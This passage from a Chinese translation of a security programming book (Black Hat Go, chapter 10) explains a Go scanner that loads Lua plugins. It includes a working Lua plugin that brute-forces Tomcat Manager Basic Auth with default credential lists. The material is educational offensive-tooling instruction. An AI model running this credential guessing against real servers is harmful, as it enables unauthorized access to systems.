 ```go
	if files, err = ioutil.ReadDir(PluginsDir); err != nil {
		log.Fatalln(err)
	}

	for idx := range files {
		fmt.Println("Found plugin: " + files[idx].Name())
		f = fmt.Sprintf("%s/%s", PluginsDir, files[idx].Name())
		if err := l.DoFile(f); err != nil {
			log.Fatalln(err)
		}
	}
}
```

清单 10-7: 注册并调用 Lua 插件 (https://github.com/blackhat-go/bhg/ch-10/lua-core/cmd/scanner/main.go/)

如同在Go的例子中的 `main()` 函数，硬编码了加载插件的路径。在 `main()` 函数中，调用 `lua.NewState()` 创建 ` *lua.LState` 实例。`lua.NewState()` 实例是设置Lua VM的关键项，注册函数和类型，并且执行任意的Lua脚本。然后将该指针传递给之前创建的 `register()` 函数，该函数在状态上注册自定义的http名称空间和函数。读取插件目录中的内容，循环遍历目录的每一个文件。对每一个文件调用 `l.DoFile(f)` ，`f` 是文件的绝对路径。这个调用在注册自定义类型和函数的Lua状态中执行文件的内容。本质上，`DoFile()` 是`gopher-lua` 执行整个文件的方式，就好像执行独立的Lua脚本一样。

### 创建插件脚本

现在让我们看一下用Lua编写的Tomcat插件脚本（清单 10-8）。

```lua
usernames = {"admin", "manager", "tomcat"}
passwords = {"admin", "manager", "tomcat", "password"}

status, basic, err = http.head("10.0.1.20", 8080, "/manager/html")
if err ~= "" then
    print("[!] Error: "..err)
    return
end
if status ~= 401 or not basic then
    print("[!] Error: Endpoint does not require Basic Auth. Exiting.")
    return
end
print("[+] Endpoint requires Basic Auth. Proceeding with password guessing")
for i, username in ipairs(usernames) do
    for j, password in ipairs(passwords) do
        status, basic, err = http.get("10.0.1.20", 8080, username, password, "/manager/html")
        if status == 200 then
            print("[+] Found creds - "..username..":"..password)
            return
        end
    end
end
```

清单 10-8: Tomcat 密码猜测Lua插件 (https://github.com/blackhat-go/bhg/ch-10/lua-core/plugins/tomcat.lua/)

不必太担心漏洞检查逻辑。实际上和用Go所创建的插件的逻辑一样的；通过使用HEAD请求对应用程序进行指纹识别后，它将对Tomcat Manager门户执行基本的密码猜测。着重说两个有趣的地方。
